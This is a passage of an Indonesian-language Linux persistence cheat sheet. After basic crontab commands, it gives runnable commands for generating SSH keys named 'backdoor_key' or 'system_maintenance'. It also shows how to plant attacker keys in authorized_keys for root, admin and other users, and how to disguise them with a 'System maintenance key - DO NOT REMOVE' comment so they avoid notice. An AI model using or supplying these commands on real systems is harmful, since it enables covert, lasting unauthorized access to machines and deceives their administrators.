 #### Cron Job Management:
```bash
# List current cron jobs
crontab -l

# Edit cron jobs
crontab -e

# Remove all cron jobs
crontab -r

# Backup cron jobs
crontab -l > cron_backup.txt
```

### 2. SSH Keys

**Tujuan**: Akses SSH tanpa password

#### Generate SSH Key Pair:
```bash
# Generate key pair
ssh-keygen -t rsa -b 4096 -f ~/.ssh/backdoor_key -N ""

# Generate dengan nama yang tidak mencurigakan
ssh-keygen -t ed25519 -f ~/.ssh/system_maintenance -N ""
```

#### Plant SSH Public Key:
```bash
# Add ke authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E... user@host" >> ~/.ssh/authorized_keys

# Set proper permissions
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Multiple users
for user in root admin user; do
    echo "ssh-rsa AAAAB3NzaC1yc2E... backdoor" >> /home/$user/.ssh/authorized_keys
done
```

#### Stealth SSH Keys:
```bash
# Gunakan comment yang tidak mencurigakan
ssh-keygen -t rsa -C "system-maintenance@$(hostname)" -f backdoor_key

# Hide dalam authorized_keys
echo "# System maintenance key - DO NOT REMOVE" >> ~/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E... system-maintenance@$(hostname)" >> ~/.ssh/authorized_keys
```
